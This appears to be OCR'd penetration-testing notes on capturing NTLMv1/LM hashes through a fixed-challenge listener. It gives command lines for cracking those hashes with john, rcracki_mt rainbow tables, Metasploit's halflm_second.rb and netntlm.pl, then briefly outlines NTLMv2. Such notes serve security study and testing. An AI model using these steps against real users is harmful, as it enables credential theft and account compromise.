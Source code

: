 > If someone open the page and attempts a connection to our listener we should get the hashes
everytime they click its the same hash, because the challenge is fixed (11222334455667788)
useful tip: if the password length is less or equal 7 characters, the last 8 bytes of NTLM response are always the same: **2f85252cc731bb25**


- With hashes in hand
	Now we can crack the hashes
```
john --format=netlm hashpwd
```

#### Rainbow tables
   // to quicken the cracking process we can use rainbow tables
rcracki_mt: 
	https://github.com/foreni-packages/rcracki_mt
rainbow tables:
	http://project-rainbowcrack.com/table.htm
	http://ophcrack.sourceforge.net/tables.php

> copy the first 8-bytes of the LMHASH (16 characters)

```
rcracki_mt -h 1234567812345678 -t 4 *.rti
-h = specify the 8byte hash
-t = threads
*.rti = the path of the downloaded rainbow tables
```

> we should have a half password
now we brute-force the remainder of the hash

```
metasploit-framework/tools/password > halflm_second.rb
```

```ruby
ruby halflm_second.rb -n <complete hash> -p <half discovered password>
```

> we have the full password
but its all uppercase, which may not be accurate
so we will use a perl script in the john folder : netntlm.pl

```perl
perl netntlm.pl -file <hashpwd file> -seed <full password>
```

> we can also use the netntlm.pl to find the uppercase password with the half portion (instead of halflm_second.rb)
and then use it again to find the case-sensitive one 

```perl
perl netntlm.pl -file <hashpwd file> -seed <half password>
```

#### NTLMv2
	the difference with the old NTLMv1 is that the type 3 message is generated in a differente way.
```
HMAC-MD5(NTLM Hash, <USERNAME, server>) 
HMAC-MD5(NTLMv2 Hash, <BLOB, Server_challenge>) 
Server receives hash + blob
blob contains a client challenge and the timestamp
```
